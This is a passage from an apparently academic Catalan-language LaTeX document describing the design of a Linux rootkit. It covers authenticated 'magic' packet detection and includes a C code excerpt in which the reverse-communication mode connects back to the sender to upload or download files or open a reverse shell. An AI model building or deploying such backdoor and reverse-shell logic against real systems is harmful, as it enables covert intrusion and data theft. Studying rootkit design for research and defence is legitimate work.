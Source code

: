 La primera comprovació que es fa, és la de la mida del paquet. Si la mida de paquet rebut no és exactament
la dels nostres paquets, aquest paquet ja pot ser descartat. Gràcies a això, podem descartar la majoria de 
paquets que no van destinats al rootkit. En cas que un paquet ocupi exactament com els nostres paquets, 
caldrà comprobar si es tracta d'un paquet autenticat amb la contrasenya correcte o si es tracta d'una 
comprovació per veure si el rootkit es troba instal·lat.
(independentment de conèixer la contrasenya o no). \\

Un cop ens arribi un paquet autenticat, d'aquest se li extreu el tipus d'acció a portar a terme, i s'executa.

\subsubsection{Mode de comunicació REV}
En cas que en el paquet rebut sol·liciti realitzar una acció de tipus inversa, el primer que caldrà fer
és establir una connexió amb l'origen del paquet. \\

\begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] REVUPLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse uploading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_upload(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVDOWNLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse downloading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_download(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVSHELL:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Launching reverse shell]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
    \caption{Accions que utilitzen el mode de comunicació REV}
    \label{fig:launcer_do_rev_action}
\end{figure}


